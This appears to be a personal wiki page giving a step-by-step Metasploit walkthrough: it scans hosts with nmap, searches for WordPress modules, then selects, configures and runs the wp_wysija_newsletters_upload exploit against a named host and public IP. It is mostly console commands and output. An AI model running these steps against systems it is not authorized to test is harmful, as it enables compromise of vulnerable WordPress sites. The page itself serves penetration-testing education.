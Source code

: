 # Metasploit

The <dfn>Metasploit</dfn> Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

## WordPress

### Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/575CF62D4C7E18CFD40566EA08E7D588.png)

#### Scan an Entire Network

-   This will save the results to the metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

-   `hosts` will list all the hosts found by `nmap`.
-   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/A9D412A6F8C5F3485B429E2EA41D4CB9.png)

### Use an Exploit

-   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

-   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/67A7D5964C96C63BA11EEA707CB4A604.png)

-   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

-   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```
